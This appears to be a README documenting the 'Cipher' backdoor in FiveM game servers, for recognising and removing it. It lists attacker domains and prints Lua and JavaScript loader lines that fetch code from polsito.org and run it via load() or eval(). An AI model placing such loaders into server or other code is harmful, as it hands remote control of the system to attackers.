 # CIPHER Backdoor

## Step 0? - Random URL
Cipher keeps using different new URLs to keep them undetected or not immediately noticeable, some of these URLs are/might be;
- polsito.org
- cipher-panel.me
- keyx.club
- 0resmon.net
- cfx-re.org
- kutingplays.com
- trezz.org
- dec4t.org

## ⚠️ Keep in mind that with some domains they try to imitate other shops or similar to appear more authentic. ⚠️

----------------

<details>
  <summary>LUA Payload (Click to expand)</summary>

  ## Step - 1 - Payload Code
  The Server loads this code from a js file to get and load the backdoor by a suspicious HTTP Request URL like this: `PerformHttpRequest('https://polsito.org/.........', function (e, d) pcall(function() assert(load(d))() end) end)`

  **Beautified:**
  ```lua
  PerformHttpRequest('https://polsito.org/..........', function(error, response) 
  	pcall(function() 
  		assert(load(response))() 
  	end)
  end)
  ```

  ## Step - 2 - Obfuscated Backdoor
  The backdoor itself is encrypted/obfuscated, so I will only be able to show the encrypted/obfuscated code:
  [Click here to get to the file](https://raw.githubusercontent.com/zImSkillz/fivem-known-backdoors/refs/heads/main/cipher-backdoor-locked-lua)
</details>

<details>
  <summary>JS Payload (Click to expand)</summary>

  ## Step - 1 - Payload Code:
  The Server loads this code from a js file to get and load the backdoor by a suspicious HTTP Request URL like this: `https.get('https://polsito.org/......',r=>{let d='';r.on('data',c=>d+=c);r.on('end',()=>eval(d));})`

  **Beautified:**
  ```js
  https.get('https://polsito.org/........', response => {
    let data = '';
    response.on('data', chunk => data += chunk);
    response.on('end', () => eval(data));
  })
  ```
  
  ## Step - 2 - Obfuscated Backdoor
  The backdoor itself is encrypted/obfuscated, so I will only be able to show the encrypted/obfuscated code:
  [Click here to get to the file](https://raw.githubusercontent.com/zImSkillz/fivem-known-backdoors/refs/heads/main/cipher-backdoor-locked-js)
</details>

## Step - 3 - Injecting to other resources
Now Cipher installs itself in other resources and system files.
